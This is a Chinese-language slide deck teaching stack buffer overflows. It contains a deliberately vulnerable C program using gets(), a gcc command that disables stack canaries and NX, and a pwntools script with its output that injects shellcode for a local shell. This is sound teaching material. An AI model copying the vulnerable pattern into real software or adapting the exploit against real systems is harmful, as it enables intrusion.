

---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---

<!-- slide data-notes="" -->
# 缓冲区溢出
<!-- slide data-notes="" -->
## 缓冲区溢出漏洞原理
### 什么是缓冲区
缓冲区是程序在执行过程中用于存放数据的地方，它通常是内存上的一段连续的地址，由程序或系统分配。
### 如何发生溢出
当存放进去的数据长度超过缓冲区本身限定的长度时，就会产生缓冲区溢出。
### 漏洞的危害
一般的缓冲区溢出，会被系统检测到错而中断退出。但一个精心构造的溢出，系统不仅不会检测到错误，还可以使攻击者获得被攻击主机的权限，实现任意指令执行。

<!-- slide data-notes="根据溢出发生的位置不同来分类，缓冲区溢出一般可以分为栈溢出和堆溢出两类。
" -->

### 缓冲区溢出类别
- 栈溢出
- 堆溢出
### 缓冲区溢出的基本条件
- 程序向用户请求输入，并向缓冲区写入数据。
- 向缓冲区写入数据时，数据的长度没有很好的限制。
<!-- slide data-notes="" -->
### 利用原理
控制指令寄存器，劫持程序执行流。
对于栈溢出，一般是通过覆盖栈上存储的函数返回地址，从而控制eip（对于64位则是rip），达到控制程序执行流程的目的。
堆溢出与之类似，但是堆上并没有存储函数返回地址的地方，所以堆溢出相对于栈溢出更为复杂和难以利用.
### 最终目的
getshell
shell通常指的是系统的命令行解释器，当攻击者得到shell，可以使用shell运行各种指令，实现入侵.
<!-- slide data-notes="
寻找溢出点：寻找危险函数，定位溢出长度。
构造溢出: 确定溢出内容，获取相关地址。
编写脚本进行攻击：编写代码，与攻击对象交互并实施攻击。" -->
### 缓冲区溢出过程
- 寻找溢出点
- 构造溢出
- 编写程序进行攻击
<!-- slide class="middle" data-notes="栈是一种先进后出的数据结构，一般有入栈（push）和出栈（pop）两种操作。" -->
### 栈
数据结构，先进后出

### 函数调用栈
程序被执行时会创建进程，进程会创建一个栈来保存局部变量和函数调用信息，需要注意的是在程序的栈空间是由高地址向低地址增长的。
<!-- slide data-notes="" -->
#### tips：为什么栈会反向增长

显然地，我们的习惯上比较接受的是从低地址向高地址增长的数据。
栈的反向增长令人困惑，但回溯历史便可以发现原因。早年计算内存空间很小，计算机需要同时在内存上维护栈和堆两个数据结构时，因为不好估计栈和堆的大小，最省事的方式就是把两个数据结构放在内存的两端，同时向中间增长，而栈一般就被放在了高地址，因而栈从高地址向低地址增长。有点像学生拿一个笔记本记两门课的笔记，一课从第一页开始记，另一课从最后一页开始记。
<!-- slide data-notes="X86：一般是将参数压栈进行传参。
传递的顺序由程序遵守的调用约定来决定，一般为从右到左。
X64：前几个参数由寄存器传递，其余由压栈传递。操作系统不同，传递参数的寄存器也不同。
Windows：RCX，RDX，R8，R9
*NIX：RDI，RSI，RDX，RCX，R8，R9
" -->
### 函数调用时发生了什么（x86）
1.  传递参数
2.	call 函数地址（push eip，jmp 被调函数地址）
3.	ebp入栈，当前esp复制到ebp，esp减去一个数值，形成该函数的栈空间
4.	初始化局部变量（自动变量）
5.	运行函数指令
6.	返回值传递
7.	pop ebp 
8.	ret（pop eip）
这里没有提到平衡栈帧的操作，实际上根据调用约定的不同，这个操作会在调用者或被调用者两个地方进行。

<!-- slide data-notes="" -->
### 栈上的数据
eip存储的是下一条要执行的指令的地址，所以若eip的值被修改为我们期望的地址，函数运行到ret时，程序将会跳到修改后的地址运行指令。根据上面来看，在进入函数时，通常栈上的数据是这样的。
可以看出，esp永远指向栈顶的位置，而ebp则永远指向当前函数空间的栈底。

<!-- slide data-notes="栈上存储函数返回地址在局部变量的相对高地址，若在输入局部变量时发生溢出，多出的数据会向高地址覆盖，最先覆盖的就是与之相邻的高地址局部变量，接下来时ebp和函数返回地址。这里的buffer的长度就是输入数据与函数返回地址之间的距离，这段数据的长度需要人为控制，保证ret数据覆盖到函数返回地址上。shellcode是用来发送到服务器利用特定漏洞的代码，它能在极小的空间内完成一些基本而重要的工作。Shellcode如何编写，由环境和目的决定，比如通过gets溢出时，shellcode要求不能出现’\x00’。" -->
### 简单的栈溢出
buffer + ret + shellcode
- buffer: 被调函数缓冲区空间
- ret: 函数返回地址
- shellcode: 执行后能够弹出shell的一段代码
<!-- slide data-notes="" -->
危险代码示例
```c
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>
int main(int argc, char **argv) 
{        
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    pwnthis();
    return 0;  
}  

int pwnthis()
{
    char s[10];
    printf("%x\n",s);
    gets(s);
    return 0;
}
```
<!-- slide data-notes="可以看到，代码中包含危险函数gets（），并且为了方便，我们打印了s[]的起始地址。将本代码保存到.c后缀的文本文件，并且用如下gcc指令来编译它。" -->
编译
```shell
gcc -m32 -fno-stack-protector -z execstack stack_overflow.c -o stack_overflow
```
-m32是指生成32位程序
-fno-stack-protector是指关闭canary保护（后面会讲到）
-z execstack是指关闭栈不可执行保护
Stack_overflow.c是源代码
-o：指定生成的输出文件
Stack_overflow就是生成的二进制文件
<!-- slide data-notes="" -->
编译成功后，用ida打开生成的二进制文件，定位到pwnthis（）函数，按f5生成伪代码，可以看到有：
```c
int pwnthis()
{
  char s; // [sp+6h] [bp-12h]@1

  printf("%x\n", &s);
  gets(&s);
  return 0;
}
```
其中，s的地址距ebp的长度为0x12。
<!-- slide data-notes="" -->
转到stack窗口查看，也有：
```sh
-00000012 s               db ?
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```
<!-- slide data-notes="" -->
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
```
<!-- slide data-notes="" -->
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。
<!-- slide data-notes="" -->
效果如下：
```sh
lometsj@ubuntu:~/pwntest$ python p.py
[+] Starting local process './stack_overflow': pid 65319
[*] Switching to interactive mode
$ ls
core  p.py  stack_overflow  stack_overflow.c
$ cat p.py
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive
```

<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
